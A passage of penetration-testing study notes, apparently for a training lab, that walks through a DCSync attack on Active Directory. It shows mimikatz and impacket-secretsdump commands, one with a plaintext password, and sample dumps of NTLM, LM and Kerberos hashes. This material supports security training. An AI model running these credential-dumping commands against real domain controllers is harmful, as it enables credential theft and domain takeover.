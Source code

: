 ```
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-1103
Object Relative ID   : 1103

Credentials:
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 0: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 1: a11e808659d5ec5b6c4f43c1e5a0972d
    lm  - 0: 45bc7d437911303a42e764eaf8fda43e
    lm  - 1: fdd7d20efbcaf626bd2ccedd49d9512d
```

**Extract Domain Administrator Credentials:**
```mimikatz
# Target domain administrator account
lsadump::dcsync /user:corp\Administrator
```

**Administrator DCSync Output:**
```
Credentials:
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
```

### Linux-Based DCSync with Impacket

**Tool: impacket-secretsdump**

**Basic DCSync Attack:**
```bash
# Target specific user
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

**Command Parameters:**
- **-just-dc-user**: Target specific user for credential extraction
- **corp.com/jeffadmin**: Domain/username for authentication
- **"password"**: Password (escape special characters)
- **@192.168.50.70**: Domain controller IP address

**Sample Secretsdump Output:**
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
[*] Kerberos keys grabbed
dave:aes256-cts-hmac-sha1-96:4d8d35c33875a543e3afa94974d738474a203cd74919173fd2a64570c51b1389
dave:aes128-cts-hmac-sha1-96:f94890e59afc170fd34cfbd7456d122b
dave:des-cbc-md5:1a329b4338bfa215
[*] Cleaning up...
```

### Hash Cracking and Analysis
